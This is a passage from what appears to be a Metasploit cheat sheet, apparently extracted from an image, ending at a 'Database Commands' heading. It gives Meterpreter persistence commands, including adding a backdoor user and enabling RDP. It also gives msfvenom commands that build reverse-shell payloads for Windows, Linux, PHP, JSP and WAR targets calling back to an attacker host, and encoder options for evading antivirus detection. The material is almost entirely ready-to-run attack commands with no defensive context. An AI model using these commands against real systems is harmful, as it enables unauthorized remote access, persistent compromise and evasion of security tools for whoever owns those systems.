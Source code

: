 ### Persistence
```bash
# Install service (Windows)
run persistence -S -U -X -i 10 -p 4444 -r 192.168.1.200

# Add user
run getgui -u hacker -p password123

# Enable RDP
run getgui -e
```

## 🛠️ Msfvenom (Payload Generator)

### Basic Syntax
```bash
msfvenom -p <payload> -f <format> -o <output_file>
```

### Common Payloads
```bash
# Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f exe -o shell.exe

# Linux reverse shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f elf -o shell

# PHP reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o shell.php

# JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o shell.jsp

# WAR reverse shell
msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f war -o shell.war
```

### Encoding & Evasion
```bash
# Encoded payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded_shell.exe

# Multiple encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x86/shikata_ga_nai -e x86/countdown -i 3 -f exe -o multi_encoded_shell.exe
```

## 🎯 Database Commands
